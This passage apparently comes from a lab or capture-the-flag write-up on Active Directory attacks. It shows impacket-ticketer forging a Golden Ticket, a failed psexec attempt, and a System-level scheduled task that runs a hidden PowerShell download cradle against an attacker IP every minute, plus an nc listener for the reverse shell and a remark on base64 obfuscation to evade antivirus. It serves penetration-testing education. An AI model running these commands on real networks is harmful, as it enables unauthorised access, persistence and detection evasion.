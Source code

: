 -   **Using** `impacket-ticketer` **to create the Golden Ticket**:
    -   `impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator`
    -   {{< figure src="/ox-hugo/2024-11-06-135026_.png" >}}

-   **Export the ticket to the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./Administrator.ccache`

-   **Run Klist**:
    -   `klist`
    -   {{< figure src="/ox-hugo/2024-11-06-135100_.png" >}}
    -   +Note+: We can see our ticket lasts for 10 years.
    -   If we look at our previous ticket, it only lasted 24 hours:
        -   {{< figure src="/ox-hugo/2024-11-06-135202_.png" >}}

-   **Use the ticket for connecting via** `psexec`
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   Revoked which means there is some form of protection/mitigation in place.
        -   {{< figure src="/ox-hugo/2024-11-06-135259_.png" >}}
        -   Instead of going down this path lets look at another solution.


### Using a base64 encoded PowerShell reverse shell and download cradle to connect back to our attack host every 1 minute: {#using-a-base64-encoded-powershell-reverse-shell-and-download-cradle-to-connect-back-to-our-attack-host-every-1-minute}

-   I will create a powershell script and use a download cradle to call back to my attack host, this way everything is loaded in memory and nothing is written to the disk (bar our registry entry) so it will be harder to detect.

-   **Create our reverse-shell script**:
    -   I use a base64 obfuscated powershell reverse shell as otherwise the AV was able to detect it. I like using <https://revshells.com> for this
        -   {{< figure src="/ox-hugo/2024-11-05-134155_.png" >}}

-   **We then need to create our scheduled task**:
    -   `schtasks /create /tn LetMeIn /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((New-Object Net.WebClient).DownloadString(''http://10.10.14.21:9000/script.ps1'''))'" /sc minute /mo 1 /ru System`
    -   {{< figure src="/ox-hugo/2024-11-06-161844_.png" >}}

-   +Deep Dive+: I have a deep dive into download cradles and how they work: 
    -   https://bloodstiller.com/articles/understandingdownloadcradles/

-   **Start our listener &amp; webserver**:
    -   Webserver:
        -   `python3 -m http.server [port]`
    -   Listener:
        -   `rlwrap -cAr nc -nvlp 53`

-   **The task grabs our script &amp; immediatley executes it in memory**:
    -   {{< figure src="/ox-hugo/2024-11-06-161916_.png" >}}

-   **We get our revere shell**:
    -   {{< figure src="/ox-hugo/2024-11-06-161934_.png" >}}
